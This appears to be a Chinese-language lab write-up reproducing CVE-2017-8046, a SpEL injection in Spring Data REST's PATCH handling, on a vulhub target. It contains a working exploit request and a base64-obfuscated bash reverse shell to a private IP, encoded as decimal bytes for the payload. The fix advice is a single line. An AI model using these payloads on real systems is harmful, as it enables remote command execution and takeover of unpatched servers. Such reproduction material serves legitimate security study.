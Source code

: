 # Spring Data Rest-远程命令执行漏洞（CVE-2017-8046）

### 0x00 前言

Spring Data REST是一个构建在Spring Data之上，为了帮助开发者更加容易地开发REST风格的Web服务。在REST API的Patch方法中，path的值被传入`setValue`，导致执行了SpEL表达式，触发远程命令执行漏洞。

**影响版本：**

```
Spring Data REST versions < 2.5.12, 2.6.7, 3.0 RC3
Spring Boot version < 2.0.0M4
Spring Data release trains < Kay-RC3
```

### 0x01 环境搭建

这里使用vulhub漏洞靶场

![image-20230328230152025](https://s2.loli.net/2023/03/28/vzF4Yufg2aEkyiQ.png)

访问`http://your-ip:8080/`即可看到json格式的返回值，说明这是一个Restful风格的API服务器。

![image-20230328230135469](https://s2.loli.net/2023/03/28/zLyMsDJvZKB7tOV.png)

### 0x02 复现步骤

1、访问`http://your-ip:8080/customers/1`，看到一个资源。我们使用PATCH请求来修改，发送如下数据包即可执行命令命令

```
PATCH /customers/1 HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json-patch+json
Content-Length: 202

[{ "op": "replace", "path": "T(java.lang.Runtime).getRuntime().exec(new java.lang.String(new byte[]{116,111,117,99,104,32,47,116,109,112,47,115,117,99,99,101,115,115}))/lastname", "value": "vulhub" }]
```

`new byte[]{116,111,117,99,104,32,47,116,109,112,47,115,117,99,99,101,115,115}`表示的命令`touch /tmp/success`，可以自行定义。

2、构造反弹shell

```shell
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEyLjE1Mi81NTU1IDA+JjE=}|{base64,-d}|{bash,-i}

# 转换为十进制
98,97,115,104,32,45,99,32,123,101,99,104,111,44,89,109,70,122,97,67,65,116,97,83,65,43,74,105,65,118,90,71,86,50,76,51,82,106,99,67,56,120,79,84,73,117,77,84,89,52,76,106,69,121,76,106,69,49,77,105,56,49,78,84,85,49,73,68,65,43,74,106,69,61,125,124,123,98,97,115,101,54,52,44,45,100,125,124,123,98,97,115,104,44,45,105,125
```

3、将转换的十进制按照格式填入`new byte[]`中

![image-20230328231545451](https://s2.loli.net/2023/03/28/4fimGWt5Usoazhw.png)

构造数据包后发送

![image-20230328231654238](https://s2.loli.net/2023/03/28/qlu7wEZs5PWM8d1.png)

get shell！！

### 0x03 修复建议

1、及时更新官方最新补丁